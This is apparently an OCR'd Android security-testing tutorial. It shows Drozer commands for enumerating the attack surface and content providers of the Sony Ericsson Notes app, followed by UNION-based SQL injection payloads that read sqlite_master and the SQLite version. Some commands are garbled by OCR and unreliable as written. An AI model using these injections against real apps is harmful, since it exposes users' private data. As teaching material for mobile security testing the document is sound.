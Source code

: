 # **Improper Error Handling** #

Error handling is not properly done, and the API is throwing database/server errors specific to the crafted request, it is possible to craft attacks using those errors.

### **Content Provider Leakage** ###

According to Google Android Security application can't share data with another application until it's allow to share. If application assign content:// to any application that means it's provide content to particular application.

#### **Content provider leakage** ####

By using Drozer to perform various attacks on content providers. We can find out the package name of our target application using the command shown as follows:

1. \#run app.package.list -f {appname}
2. \#run app.package.attacksurface com.sonyericsson.notes
3. \#run scanner.provider.finduris -a \[package name]

\#run scanner.provider.finduris -a com.sonyericsson.notes

1. \#run app.provider.query \[content provider URI]
2. \#run app.provider.query content://com.sonyericsson.notes.provider
3. \#run app.provider.query \[URI] --vertical (For Vertical view)

\#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --vertical

#### **Attacking SQL Injection using Drozer** ####

1. \#run scanner.provider.injection -a \[package name]
2. \#run scanner.provider.injection -a com.sonyericsson.notes
3. \#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --selection "{sqlpayload}"

\#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --selection "\_id=1"

\#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --sele,ction "\_id=1=1)union select 1,2,3,4,5,6,7,8,9,10,11,12, 13,14 from sqlite\_master where (1=1"

\#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --selection "\_id=1=1)union select 1,2,3,4,sqlite\_ version(),6,7,8,9,10,1112,13,14 from sqlite\_master where (1=1"

